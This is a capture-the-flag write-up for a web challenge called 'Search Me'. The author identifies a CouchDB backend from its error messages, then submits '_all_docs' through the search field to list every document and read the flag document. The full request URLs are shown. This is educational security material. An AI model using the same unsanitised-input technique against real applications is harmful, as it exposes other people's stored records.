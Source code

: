# DEFKTHON CTF: Web 400

**Description:**

> [Search Me](http://54.201.96.212:888/web400/web_search.php)

## Write-up

The `web_search.php` endpoint contains a form, and (by default) displays the following error message:

```
Error: Document ID is empty (errcode=0)
```

Let’s enter `test` in the search field and submit the form. [The response](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=test) contains:

```
Error: Object Not Found - missing (GET /astro_users/test []) (errcode=404)
```

[This error message format](https://www.google.com/search?q=%22Object%20Not%20Found%20-%20missing%22) is a hint that CouchDB is used.

CouchDB has [an `_all_docs` endpoint](http://couchdb.readthedocs.org/en/latest/api/database/bulk-api.html#get--db-_all_docs) that returns a list of all available documents in the database, in JSON format. (Note: [`_changes`](http://couchdb.readthedocs.org/en/latest/api/database/changes.html) could be used as well.) [Let’s take a look](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=_all_docs):

```
stdClass Object
(
    [total_rows] => 3
    [offset] => 0
    [rows] => Array
        (
            [0] => stdClass Object
                (
                    [id] => flag_for_l33ts
                    [key] => flag_for_l33ts
                    [value] => stdClass Object
                        (
                            [rev] => 4-f9d777fcf20c3fc52943aeba961593e9
                        )

                )

            [1] => stdClass Object
                (
                    [id] => userid1
                    [key] => userid1
                    [value] => stdClass Object
                        (
                            [rev] => 3-3125d533dea89836adec3b8a5a652030
                        )

                )

            [2] => stdClass Object
                (
                    [id] => userid2
                    [key] => userid2
                    [value] => stdClass Object
                        (
                            [rev] => 5-0090aa4c0db1f8d52a74d6134b2e48ef
                        )

                )

        )

)
```

`flag_for_l33ts` sounds interesting. [Let’s check it out](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=flag_for_l33ts):

```
stdClass Object
(
    [_id] => flag_for_l33ts
    [_rev] => 4-f9d777fcf20c3fc52943aeba961593e9
    [flag_for_l33ts_only] => flag{here_you_go_nice_solving_webChalLenges}
)
```

The flag is `here_you_go_nice_solving_webChalLenges`.

## Other write-ups and resources

* none yet
